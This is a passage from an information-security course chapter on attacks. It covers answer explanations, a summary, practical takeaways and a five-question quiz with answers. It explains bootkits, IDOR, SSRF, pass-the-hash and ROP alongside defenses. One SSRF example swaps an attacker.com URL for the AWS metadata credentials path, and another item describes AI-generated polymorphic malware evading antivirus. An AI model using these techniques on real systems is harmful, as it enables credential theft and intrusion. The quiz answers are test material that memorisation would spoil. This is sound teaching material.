**A19.** Bootkit: infects MBR/VBR (boot sector). Detected by boot-time antivirus or UEFI Secure Boot. Firmware rootkit: infects BIOS/UEFI firmware or device firmware (HDD, SSD, NIC firmware). Persists even after OS reinstall, hard disk replacement, or BIOS update (if not reflashing the firmware). Extremely difficult to detect (requires offline firmware analysis).

**A20.** Timeline: discovered by researcher (or attacker) → (zero-day starts) → exploit developed → attacks begin → vendor notified → CVE assigned → patch developed (avg 15-30 days) → patch deployed → (zero-day ends). The zero-day window is the period from exploit release to patch deployment. Target: reduce window with vulnerability disclosure programs, bug bounties, automated patching.

**A21.** LLM generates malware code variants with different code structure, variable names, logic flow (while maintaining payload). Signature-based AV: each variant has different hash/byte signature → no match. ML-based AV: adversarial examples craft inputs that cause misclassification. AI-generated polymorphism creates unlimited variants at near-zero cost.

**A22.** IDOR (Insecure Direct Object Reference): API endpoint `/api/order/12345` returns order details. Attacker changes to `/api/order/12346` and sees another user's order. Fix: server must verify the authenticated user owns/authorized for the requested resource. Never rely on client-side restrictions.

**A23.** TCP RST injection: easier. Attacker sends RST packet with correct sequence number (can be guessed or captured) → connection terminated. TCP session hijacking: harder. Attacker must inject data into active TCP stream with correct sequence/ack numbers, predict next SEQ, inject malicious payload. RST injection causes DoS; hijacking causes data theft.

**A24.** Implicit grant: access token returned in URL fragment (#access_token=...). Fragment accessible by browser JavaScript → vulnerable to: XSS (steal from window.location), rogue scripts running in page, referer header leakage. PKCE: code_challenge (SHA-256 of code_verifier) sent in authorize request. Token exchange requires code_verifier — intercepted code useless without verifier.

**A25.** Dwell time: time from initial compromise to detection. Mandiant's M-Trends 2022: average dwell time = 16 days (globally) / 24 days (Asia-Pacific). Reduced from 416 days (2011) due to improved detection. Target: reduce dwell time with EDR, 24/7 SOC, threat hunting, faster incident response.

**A26.** (1) Sender email slightly different (ceo@company.co vs ceo@company.com). (2) Urgent language ("transfer immediately" "personal favor"). (3) Unusual request (CEO asking finance to wire money — bypassing normal process). (4) Generic greeting or overly formal tone. (5) External email warning banner not present (if company has it). All 5 present → almost certainly phishing.

**A27.** ROP (Return-Oriented Programming): when NX/DEP prevents executing code on the stack, attacker chains existing code snippets (gadgets) that end with RET instruction. Each gadget performs small operation (pop, mov, xor, add). Chain of gadget addresses on stack → when each RET executes, it jumps to next gadget → achieves arbitrary computation without executing new code. No stack execution needed.

**A28.** Volumetric (L3/4): SYN flood, UDP amplification → high bandwidth but easier to detect and mitigate (Cloudflare, AWS Shield, scrubbing centers). Application (L7): HTTP flood, Slowloris, API abuse → low bandwidth but harder to distinguish from legitimate traffic. L7 requires sophisticated ML-based detection and can bypass basic DDoS protections.

**A29.** PtH: Attacker extracts NTLM hash (not password) from compromised system's LSASS memory (using Mimikatz). Uses hash to authenticate to other systems via NTLM without knowing password. Works because NTLM uses hash directly in challenge-response. Mitigation: Restricted Admin mode (RDP), LSA protection, Credential Guard, least privilege.

**A30.** SSRF exploitation: App fetches URL from user input (e.g., `/download?url=http://attacker.com/file.pdf`). Attacker changes to `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` — AWS metadata endpoint. Server fetches and returns IAM credentials. Fix: URL allowlist, block private IP ranges, restrict outbound traffic from app servers, use IMDSv2 (session-based).
</details>

## Summary

1. **Malware types:** Virus (attaches to host, needs user action), Worm (self-propagating, network spread), Trojan (disguised, no self-replication), Ransomware (encrypts for ransom, WannaCry), Rootkit (hides presence, kernel/firmware level).

2. **DoS/DDoS:** SYN flood (TCP handshake exploitation — SYN cookies defend), Amplification attacks (DNS 50×, NTP 556×, Memcached 51,000×), HTTP flood, Slowloris.

3. **SQL Injection:** Root cause = unsanitized input in SQL queries. Best defense = parameterized queries. Types: In-band (error/union), Blind (boolean/time), Out-of-band.

4. **XSS** (stored/reflected/DOM) = injected script executes in victim's browser. Defense: output encoding, CSP, HttpOnly cookies. **CSRF** = forged request with victim's cookie. Defense: CSRF tokens, SameSite cookies.

5. **Phishing:** Deceptive emails/messages to steal credentials. Spear phishing = targeted. Social engineering exploits psychological principles (authority, urgency).

6. **MITM attacks:** ARP spoofing (LAN), DNS spoofing (cache poisoning), SSL stripping. Encryption (TLS) prevents content interception but not traffic analysis.

7. **Session hijacking:** Stealing session ID via sniffing, XSS, prediction. Prevention: Secure + HttpOnly cookies, HTTPS, session ID regeneration after login.

8. **Zero-day:** Exploit for unknown vulnerability (no patch available). **Buffer overflow:** Writing past buffer boundary → overwriting return address → code execution. Defenses: stack canaries, ASLR, NX/DEP, safe functions.

## Practical Takeaways

- **For exam prep:** Memorize attack types and their primary defense mechanisms. Know which attacks exploit specific protocols (SYN flood → TCP, Teardrop → IP fragmentation). Remember OWASP Top 10: Injection (#1), XSS (#2), CSRF (#3), etc. for exams referencing OWASP.
- **For web applications:** Always use parameterized queries (SQLi defense). Implement CSRF tokens on all state-changing forms. Enable CSP headers. Set HttpOnly + Secure + SameSite cookie flags.
- **For network security:** Enable SYN cookies. Filter ICMP. Use BCP 38 (ingress/egress filtering) to prevent spoofed source IPs. Deploy WAF for application-layer attacks.
- **For defense in depth:** Combine signature-based + anomaly-based detection. Implement least privilege. Regular patching. Backup 3-2-1. Security awareness training (phishing simulations).

---

## Chapter Quiz (5 MCQs)

**Q1.** Which of the following correctly matches the attack type with its primary target?

A) Slowloris → Database connection pool  
B) SYN flood → TCP connection backlog  
C) Teardrop → TLS handshake  
D) DNS amplification → Application server CPU  

<details>
<summary>Show Answer</summary>

**Answer: B) SYN flood → TCP connection backlog**

**Explanation:** SYN flood targets the server's TCP connection backlog by sending many SYN packets with spoofed source IPs, filling the backlog queue with half-open connections until no new legitimate connections can be established. Slowloris targets web server connection threads (not database). Teardrop targets IP fragment reassembly. DNS amplification targets network bandwidth (not server CPU).
</details>

---

**Q2.** The primary difference between Stored XSS and Reflected XSS is:

A) Stored XSS requires user interaction; Reflected does not  
B) Stored XSS is permanently stored on the server; Reflected XSS is in the URL/response  
C) Stored XSS can be prevented with CSP; Reflected XSS cannot  
D) Stored XSS only affects Internet Explorer; Reflected affects all browsers  

<details>
<summary>Show Answer</summary>

**Answer: B) Stored XSS is permanently stored on the server; Reflected XSS is in the URL/response**

**Explanation:** Stored XSS persists on the server (database, file, comment thread) and affects every user who views the affected page. Reflected XSS is embedded in the URL/request and reflected in the immediate response — the victim must be tricked into clicking a crafted link. Both can be prevented by proper output encoding and CSP.
</details>

---

**Q3.** Which of the following is NOT a valid defense against CSRF attacks?

A) SameSite cookie attribute  
B) CSRF token in form hidden field  
C) CAPTCHA on login page  
D) Origin header validation  

<details>
<summary>Show Answer</summary>

**Answer: C) CAPTCHA on login page**

**Explanation:** CAPTCHA on the login page helps prevent automated brute-force login attempts, but does not prevent CSRF attacks specifically. CSRF occurs on state-changing actions (funds transfer, password change) while the user is already authenticated. Valid CSRF defenses include SameSite cookies, embedded CSRF tokens, custom headers, and Origin/Referer validation. CAPTCHA on sensitive actions can be an additional layer but is not a direct CSRF defense.
</details>

---

**Q4.** A rootkit that infects the BIOS/UEFI is classified as:

A) Bootkit  
B) Firmware rootkit  
C) Kernel rootkit  
D) User-mode rootkit  

<details>
<summary>Show Answer</summary>

**Answer: B) Firmware rootkit**

**Explanation:** A firmware rootkit infects the system firmware (BIOS/UEFI) and persists even after OS reinstallation or hard disk replacement. Bootkits infect the MBR/VBR (boot sector). Kernel rootkits hook OS kernel functions. Firmware rootkits are extremely difficult to detect and remove because they operate below the OS level.
</details>

---

**Q5.** In a DNS amplification DDoS attack, the attacker spoofs which IP address in the initial query?

A) Their own IP address  
B) The DNS server's IP address  
C) The victim's IP address  
D) A random non-existent IP address  

<details>
<summary>Show Answer</summary>

**Answer: C) The victim's IP address**

**Explanation:** In DNS amplification attacks, the attacker sends a small DNS query with the source IP spoofed to be the victim's IP address. The DNS server sends the (much larger) response to the victim's IP. This way, the victim receives amplified traffic without participating in the attack. The attacker's identity is hidden because the response goes to the victim, not the attacker.
</details>

---

> **Next Chapter:** [Chapter 4 — Digital Signatures & PKI](/information-security/04-digital-signatures-pki/)
